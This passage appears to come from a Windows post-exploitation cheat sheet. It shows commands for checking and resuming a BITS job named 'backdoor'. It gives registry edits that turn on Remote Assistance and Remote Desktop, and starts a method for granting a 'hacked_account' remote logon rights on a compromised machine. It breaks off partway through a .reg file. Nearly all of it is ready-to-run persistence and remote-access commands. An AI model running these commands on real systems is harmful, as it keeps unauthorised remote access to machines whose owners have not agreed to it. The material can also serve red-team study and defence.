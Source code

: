 Check the backdoor is set up correctly:
```
bitsadmin /getnotifycmdline backdoor
bitsadmin /listfiles backdoor
```

Run the backdoor:
```
bitsadmin /RESUME backdoor
```

### Remote Assistance Enable
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fAllowToGetHelp /t REG_DWORD /d 1 /f`
 * **Description**: **Must be admin to run this.** Enable remote assistance through adding a registry entry on the local system.


### Remote Desktop Enable - Method 1
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fDenyTSConnections /t REG_DWORD /d 0 /f`
 * **Description**: **Must be admin to run this.** Enable remote desktop through adding a registry entry on the local system.


### Remote Desktop Enable - Method 2
Remote Desktop allows a remote user to receive a graphical "desktop" of the target (compromised) system. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 53)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely enable remote desktop using the commands below.

 1. On the compromised system, create a file named `fix_ts_policy.ini` containing the contents below. Change the *"hacked_account"* value to the account you have compromised on the remote system.


    <pre>
     [Unicode]
         Unicode=yes
         [Version]
         signature="$CHICAGO$"
         Revision=1
         [Privilege Rights] [Privilege Rights]
         seremoteinteractivelogonright = hacked_account
         seinteractivelogonright = hacked_account
         sedenyinteractivelogonright =
         sedenyremoteinteractivelogonright =
         sedenynetworklogonright =
    </pre>

 1. Create another file named `enable_ts.reg` containing the contents below.



    <pre>

     Windows Registry Editor Version 5.00
